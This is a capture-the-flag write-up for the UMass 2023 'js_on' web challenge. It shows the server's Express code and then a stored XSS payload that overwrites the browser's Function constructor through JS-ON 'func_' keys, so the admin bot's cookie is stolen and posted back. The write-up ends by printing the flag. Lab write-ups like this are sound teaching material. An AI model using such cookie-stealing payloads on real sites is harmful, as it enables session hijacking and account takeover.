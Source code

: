 # UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into by looking at this challenge is a website that allows you to run code with compiled `JS-ON` for an user.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>The main website</p></figcaption></figure>

There is also a 'bot' website that seems to run the user's generated code as admin.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>The Bot website</p></figcaption></figure>

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

Based on the code provided, the application is a web server that allows users to write JavaScript code and execute it on the server-side using a technology called JS-ON.

The server creates a unique identifier as a cookie for each user that connects to it, and saves the user's code and JS-ON payload in Redis. Users can retrieve their code and payload by specifying their unique identifier in the URL path.

There is also an admin feature that allows a user with a specific cookie to access a pre-defined library of JavaScript code with an embedded flag. However, this feature is protected by a cookie, which is checked against a predefined value that we can't access.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

## The solution

Looking at the client-side some more, it seems that we can abuse the `func_` keys to cause the JS-ON parser in the browser to overwrite the `Function()` constructor, and then run code without the bot needing to click `Run this code!`

The goal is to POST this to the JS-ON server as a snippet:

{% code overflow="wrap" %}
```json
{"code":"console.log(hello);","js-on":"{\r\n    \"func_Function\": \"let adminCookie = document.cookie;document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });\",\r\n    \"func_require\": \";;;\"\r\n}"}
```
{% endcode %}

Then, when the bot opens the page it overwrites the Function then calls it with the second dummy func.

Refresh, then you got the cookie:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

You can then put this cookie and access the admin snippet:

{% code overflow="wrap" %}
```json
{"code":"/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag","js-on":{"var_flag":"UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"}}
```
{% endcode %}

